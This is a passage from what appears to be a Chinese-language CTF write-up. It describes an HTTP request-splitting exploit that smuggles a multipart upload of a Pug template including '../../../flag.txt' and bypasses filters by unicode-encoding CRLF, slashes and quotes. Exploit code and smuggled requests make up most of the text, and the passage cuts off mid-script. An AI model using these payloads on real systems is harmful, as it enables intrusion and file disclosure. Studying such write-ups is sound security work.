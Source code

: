 ```python

POST /file_upload HTTP/1.1
Host: amiz
Content-Length: 266
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4RZFWBFQ4MBn61cf
Cache-control: no-cache
Connection: keep-alive

------WebKitFormBoundary4RZFWBFQ4MBn61cf
Content-Disposition: form-data; name="file"; filename="amiz.pug"
Content-Type: /../template

doctype html
html
  head
    style
      include ../../../../../../../flag.txt
------WebKitFormBoundary4RZFWBFQ4MBn61cf--

GET /flag HTTP/1.1
Host: amiz
Connection: close
amiz: '''

payload = _payload.replace(' ', f'{SPACE}').replace('\n', f'{CRLF}').replace('/', f'{SLASH}').replace('"', f'{DOUBLE_MARK}').replace("'", f'{SINGLE_MARK}')
print(payload)

result = requests.get(url + quote(payload))
print(result.text)

```

![image-20211206133327186](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211206133327186.png)

成功得到flag，本地抓包看一下具体情况

![image-20211207011253660](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211207011253660.png)

在exp中我们对一些特殊字符做了unicode编码，被编码的字符应该包括以下这些

```
! & ` ; + \ / " ' <SPACE> <CRLF>
```

![image-20211206133438315](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211206133438315.png)

（！！！注意 这里很可能有遗漏或者不必要的 请根据实际情况修改

下面是完全编码的exp.py

```python
import urllib.parse
import requests

_payload = '''amiz HTTP/1.1
Host: amiz
Connection: keep-alive

POST /file_upload HTTP/1.1
Host: amiz
Content-Length: 266
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4RZFWBFQ4MBn61cf
Cache-control: no-cache
Connection: keep-alive

```